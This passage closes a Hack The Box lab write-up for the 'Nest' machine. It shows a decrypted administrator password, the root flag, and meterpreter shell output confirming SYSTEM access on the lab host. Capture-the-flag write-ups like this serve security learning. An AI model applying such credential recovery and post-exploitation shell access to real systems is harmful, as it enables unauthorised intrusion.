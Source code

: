 
	...and then running it...
	
	

![user_Administrator_C#_decrypt.png](https://github.com/zweilosec/htb-writeups/blob/master/Images/nest/user_Administrator_C%23_decrypt.png)


RU Scanner --> XtH4nkS4Pl4y1nGX
```
zweilos@kalimaa:~/htb/nest$ cat 'Administrator\Desktop\root.txt' 
2f1fbb443419c664fff8b0f0424a3da1
```
I also went back to see if I could actually get a shell on the box to try to elevate to System privileges since this entire box had been completed in locked down quasi-shells the whole time...
```
meterpreter > shell
Process 1732 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

Thanks to [`Vbscrub`](https://www.hackthebox.eu/home/users/profile/158833) for creating such a unique and interesting challenge.  I certainly learned a few useful new tricks.

